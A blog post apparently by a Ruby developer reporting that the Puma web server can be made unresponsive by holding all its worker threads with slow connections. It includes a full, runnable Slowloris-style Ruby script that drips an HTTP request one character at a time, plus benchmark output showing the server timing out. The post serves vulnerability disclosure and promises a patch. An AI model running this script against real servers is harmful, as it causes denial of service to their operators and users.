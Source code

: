 ```yaml
---
title: Puma and the light

categories:
  - programming
  - ruby
  - lol

layout: post
---
```


Today after I finished wrapping up [barlume](https://github.com/meh/barlume) I started
thinking about the next steps.

At first I thought about writing a reactor with it and adding a compatibility layer to
make it work like [EventMachine](https://github.com/eventmachine/eventmachine) (and it
will be done), but then I thought about Puma.

[Puma](http://puma.io/) is a very awesome Ruby web server, I really like what it tries to
achieve and by reading the homepage it seems really performant.

So I started digging around the source to see where I could improve its performances and
after seeing the orror of `IO.select` usage (which isn't that bad for how they use it) I
noticed how it handled connections and requests.

{% highlight ruby %}
@thread_pool = ThreadPool.new(@min_threads, @max_threads) do |client, env|
  process_client(client, env)
end
{% endhighlight %}

When it starts it creates a `ThreadPool`, the default minimum is **0** the default maximum is **16**,
after reading more of it, specifically that `process_client` function I realized something else:
it can only handle *maximum threads* clients at a time.

What are the consequences of this sad realization? The consequences are that this simple script
makes *puma* completely unresponsive:

{% highlight ruby %}
#! /usr/bin/env ruby
# encoding: utf-8
require 'socket'
require 'barlume'
require 'optparse'

options = {}

OptionParser.new do |o|
  options[:host]    = 'localhost'
  options[:port]    = 9292
  options[:threads] = 16
  options[:content] = "GET / HTTP/1.1\r\nHost: localhost\r\n\r\n"
  options[:sleep]    = 1

  o.on '-h', '--host host', 'the host of the server' do |value|
    options[:host] = value
  end

  o.on '-p', '--port port', Integer, 'the port of the server' do |value|
    options[:port] = value
  end

  o.on '-t', '--threads [MAX_THREADS]', Integer,
       'the max amount of threads on the server' do |value|
    options[:threads] = value
  end

  o.on '-c', '--content CONTENT', 'the string to send' do |value|
    options[:content] = value
  end

  o.on '-s', '--sleep SECONDS', Float,
       'the time to sleep before sending every character' do |value|
    options[:sleep] = value
  end
end.parse!

class Slowpoke < Barlume::Lucciola
  def initialize (socket, message)
    super(socket)

    @message = message
    @offset  = 0
  end

  def send_next
    return if done?

    write_nonblock @message[@offset]

    @offset += 1
  rescue Errno::EAGAIN, Errno::EWOULDBLOCK
  end

  def done?
    @offset >= @message.length
  end
end

lantern = Barlume::Lanterna.best

options[:threads].times {
  lantern << Slowpoke.new(TCPSocket.new(
    options[:host], options[:port]), options[:content])
}

puts "oh noes, a wall on my path D:"

until lantern.all?(&:done?)
  lantern.writable.each {|s|
    s.send_next
  }

  sleep options[:sleep]
end

puts "oh, there's a door ( ･ ◡◡･)"
{% endhighlight %}

I ran that script on a simple *sinatra* application and prepared to run `ab` to see
how it handled everything, this was the result:

{% highlight text %}
Benchmarking 127.0.0.1 (be patient)...apr_poll: The timeout specified has expired (70007)
{% endhighlight %}

It **dies**.

When the slowpokes are done everything restarts working properly.

So, what's next about all of this? I'll try to write a patch to make it use barlume
and keep it as concurrent as before.

In the meantime I'd suggest to not use it in production or at least with other external
measures to avoid that kind of attack.
